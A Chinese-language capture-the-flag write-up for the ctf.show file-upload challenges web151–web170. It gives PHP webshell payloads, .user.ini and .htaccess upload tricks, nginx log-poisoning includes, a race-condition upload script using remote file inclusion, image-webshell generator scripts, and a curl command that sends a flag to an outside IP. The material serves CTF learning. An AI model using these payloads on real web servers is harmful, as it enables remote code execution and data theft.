








web151
前台验证
将一句话木马改成png，抓包修改后缀即可
payload:
1=system('cat /var/www/html/flag.php');
web152
这道题没有前端检验，但是解法跟web151是一样的

web153
一开始尝试了大小写绕过

上传后发现服务器不解析
这题可以利用.user.ini来进行文件上传
首先我们在文件中写入
这句话相当于php中的文件包含
写入后将文件改为png上传，抓包将文件名改为.user.ini
接着将一句话木马改为1.png上传
接着访问 /upload/index.php
payload:
1=system('tac ../f*');

注意这个方法的前提是文件上传的目录中有能够执行的php的文件（如index.php）
web154
这题跟上题差不多，只是过滤了php
将一句话木马改成短标签的形式就可以了（我一直用的短标签所以没什么影响）
web155
解法同web154一样
web156

这题有新的waf,可以测出来waf掉了[]
那既然这样我们直接读flag就是了
<?=system('cat ../f*');?>
或者也可以用{}代替[’']
<?=@eval($_GET{1});?>
web157
这道题[]和;都被waf了
payload:
<?=system("tac ../f*")?>
不写;就行了
web158
这题和上题的解法一样
web159
这题waf掉了()
没有()怎么进行rce呢？我们可以想到``进行命令执行的技巧
payload:
<?=`tac ../f*`?>
web160

一开始发现.user.ini穿不上，后面测到原来是空格被waf了，.user.ini里也不能有空格
相比上一题这题将空格和``反引号和log过滤掉了
这题我们可以考虑使用日志注入的方法
尝试一下包含日志 nginx的log在/var/log/nginx/access.log
payload:
<?=include"/var/l"."og/nginx/access.l"."og"?>

看到有user-agent说明这条路行得通
直接读flag
web161
这一题在上一题的基础上增加了文件头的检验
我们可以通过在上传文件的时候加上图片的文件头GIF89a进行绕过

其余和web160无异，利用文件包含进行日志注入即可
web162
fuzz一下可以发现这题把.也ban掉了
所以我们在上传的.user.ini时我们可以去掉文件后缀
GIF89a
auto_prepend_file=1
接下来考虑怎么构造读flag
可以通过取反绕过.的过滤，进行文件包含
<?=$a="Ñ"?>
<?=$b=~$a?>
<?=$l="l"?>
<?=$o="o"?>
<?=$g="g"?>
<?=include"/var/$l$o$g/nginx/access$b$l$o$g"?>
文件 1 中的内容 下面的Ñ 为 . 取反后的字符 十六进制为 D1，利用的时候，在brup 中更改hex里的值。
日志注入即可
web163
这题和上题的条件差不多，但是存在竞争条件，上传图片的话会被删掉
这题我们尝试使用远程文件包含
我们把payload写在服务器上，然后起一个http服务
记住，文件包含时要把ip转换成长整型（.被waf了）
GIF89a
auto_prepend_file=http://长整型ip:7777/s
传.user.ini
接着搓一个发包脚本
1import requests
2
3while True:
4 burp0_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/"
5 burp1_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/upload/"
6 burp0_headers = {"Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "zh-CN,zh;q=0.9", "Sec-Ch-Ua": "\"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"", "Sec-Ch-Ua-Mobile": "?0", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryBcDoqZWhQP52WEA6", "Origin": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Referer": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=1, i", "Connection": "keep-alive"}
7 burp0_data = "------WebKitFormBoundaryBcDoqZWhQP52WEA6\r\nContent-Disposition: form-data; name=\"file\"; filename=\".user.ini\"\r\nContent-Type: image/png\r\n\r\nGIF89a\r\nauto_prepend_file=http://长整型ip:7777/shell\r\n------WebKitFormBoundaryBcDoqZWhQP52WEA6--\r\n"
8 log = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
9 log1 = requests.get(burp1_url)
10 print(log.status_code)
11 print('\n')
12 print(log1.text)
13 if "ctfshow" in log1.text:
14 print('getflag')
15 break
web164

这题随便传个图片试试发现多了个查看图片
https://775e9cd3-3a73-47a1-b31d-7b4450ec5573.challenge.ctf.show/download.php?image=94f7678cc4cda39c02c7890bc8fe6941.png

从url我们可以看出这题存在图片包含
我们可以利用这个文件包含去执行我们的图片马
大佬的脚本，可以绕过二次渲染
1<?php
2$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
3 0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
4 0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
5 0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
6 0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
7 0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
8 0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
9 0x66, 0x44, 0x50, 0x33);
10
11
12
13$img = imagecreatetruecolor(32, 32);
14
15for ($y = 0; $y < sizeof($p); $y += 3) {
16 $r = $p[$y];
17 $g = $p[$y+1];
18 $b = $p[$y+2];
19 $color = imagecolorallocate($img, $r, $g, $b);
20 imagesetpixel($img, round($y / 3), 0, $color);
21}
22
23imagepng($img,'./1.png');
24?>
图片马的内容 <?$_GET[0]($_POST[1]);?>
没有回显
外带读flag
POST 1=cat f* | curl -X POST -d @- http://106.55.168.231:7777/
GET 0=system
web165
这题考察的也是图片马，但是是用jpg的图片马绕过二次渲染
大佬的脚本
1<?php
2 /*
3
4 The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
5 It is necessary that the size and quality of the initial image are the same as those of the processed image.
6
7 1) Upload an arbitrary image via secured files upload script
8 2) Save the processed image and launch:
9 jpg_payload.php <jpg_name.jpg>
10
11 In case of successful injection you will get a specially crafted image, which should be uploaded again.
12
13 Since the most straightforward injection method is used, the following problems can occur:
14 1) After the second processing the injected data may become partially corrupted.
15 2) The jpg_payload.php script outputs "Something's wrong".
16 If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
17
18 Sergey Bobrov @Black2Fan.
19
20 See also:
21 https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
22
23 */
24
25 $miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义
26
27
28 if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
29 die('php-gd is not installed');
30 }
31
32 if(!isset($argv[1])) {
33 die('php jpg_payload.php <jpg_name.jpg>');
34 }
35
36 set_error_handler("custom_error_handler");
37
38 for($pad = 0; $pad < 1024; $pad++) {
39 $nullbytePayloadSize = $pad;
40 $dis = new DataInputStream($argv[1]);
41 $outStream = file_get_contents($argv[1]);
42 $extraBytes = 0;
43 $correctImage = TRUE;
44
45 if($dis->readShort() != 0xFFD8) {
46 die('Incorrect SOI marker');
47 }
48
49 while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
50 $marker = $dis->readByte();
51 $size = $dis->readShort() - 2;
52 $dis->skip($size);
53 if($marker === 0xDA) {
54 $startPos = $dis->seek();
55 $outStreamTmp =
56 substr($outStream, 0, $startPos) .
57 $miniPayload .
58 str_repeat("\0",$nullbytePayloadSize) .
59 substr($outStream, $startPos);
60 checkImage('_'.$argv[1], $outStreamTmp, TRUE);
61 if($extraBytes !== 0) {
62 while((!$dis->eof())) {
63 if($dis->readByte() === 0xFF) {
64 if($dis->readByte !== 0x00) {
65 break;
66 }
67 }
68 }
69 $stopPos = $dis->seek() - 2;
70 $imageStreamSize = $stopPos - $startPos;
71 $outStream =
72 substr($outStream, 0, $startPos) .
73 $miniPayload .
74 substr(
75 str_repeat("\0",$nullbytePayloadSize).
76 substr($outStream, $startPos, $imageStreamSize),
77 0,
78 $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
79 substr($outStream, $stopPos);
80 } elseif($correctImage) {
81 $outStream = $outStreamTmp;
82 } else {
83 break;
84 }
85 if(checkImage('payload_'.$argv[1], $outStream)) {
86 die('Success!');
87 } else {
88 break;
89 }
90 }
91 }
92 }
93 unlink('payload_'.$argv[1]);
94 die('Something\'s wrong');
95
96 function checkImage($filename, $data, $unlink = FALSE) {
97 global $correctImage;
98 file_put_contents($filename, $data);
99 $correctImage = TRUE;
100 imagecreatefromjpeg($filename);
101 if($unlink)
102 unlink($filename);
103 return $correctImage;
104 }
105
106 function custom_error_handler($errno, $errstr, $errfile, $errline) {
107 global $extraBytes, $correctImage;
108 $correctImage = FALSE;
109 if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
110 if(isset($m[1])) {
111 $extraBytes = (int)$m[1];
112 }
113 }
114 }
115
116 class DataInputStream {
117 private $binData;
118 private $order;
119 private $size;
120
121 public function __construct($filename, $order = false, $fromString = false) {
122 $this->binData = '';
123 $this->order = $order;
124 if(!$fromString) {
125 if(!file_exists($filename) || !is_file($filename))
126 die('File not exists ['.$filename.']');
127 $this->binData = file_get_contents($filename);
128 } else {
129 $this->binData = $filename;
130 }
131 $this->size = strlen($this->binData);
132 }
133
134 public function seek() {
135 return ($this->size - strlen($this->binData));
136 }
137
138 public function skip($skip) {
139 $this->binData = substr($this->binData, $skip);
140 }
141
142 public function readByte() {
143 if($this->eof()) {
144 die('End Of File');
145 }
146 $byte = substr($this->binData, 0, 1);
147 $this->binData = substr($this->binData, 1);
148 return ord($byte);
149 }
150
151 public function readShort() {
152 if(strlen($this->binData) < 2) {
153 die('End Of File');
154 }
155 $short = substr($this->binData, 0, 2);
156 $this->binData = substr($this->binData, 2);
157 if($this->order) {
158 $short = (ord($short[1]) << 8) + ord($short[0]);
159 } else {
160 $short = (ord($short[0]) << 8) + ord($short[1]);
161 }
162 return $short;
163 }
164
165 public function eof() {
166 return !$this->binData||(strlen($this->binData) === 0);
167 }
168 }
169?>
jpg图片比较脆弱，成功率很低，我试了十多张图片都没成功
web166
zip注入
这题只能上传zip，上传后会出现查看文件，存在文件包含
本质上就是利用文件包含执行我们的恶意代码
web167
.htaccess文件利用
什么是.htaccess？
htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
如果服务器开启了.htaccess，那我们就可以利用.htaccess将jpg或者png等后缀的文件，作为php文件解析
AddType/AddHandler application/x-httpd-php ".jpg"
由于有前端验证，我们要先把编写好的.htaccess文件改为.jpg后缀
再通过抓包将文件名修改为.htaccess
接着上传我们写好的一句话木马(后缀为.jpg)
可以看到我们的一句话木马已经被成功执行了
web168
基础免杀

这题没有限制文件类型，可以上传php
应该是对关键词有过滤
简单拼接一下试试，没想到直接成功了
payload
<?php $a="sys"."tem"; $a($_REQUEST[1]);?
GET 1=tac%20../flagaa.php
web169
.user.ini文件包含
前端做了校验只能传zip文件,后端又做了图片文件检查(需要改成image/png).过滤了<>和php
先上传一个index.php，然后利用日志包含，上传.user.ini 写入以下内容进行包含然后UA里面写木马
auto_append_file="/var/log/nginx/access.log"
<?=system('cat ../flagaa.php')?>
web170
这题和web169解法一样，也是可以进行日志包含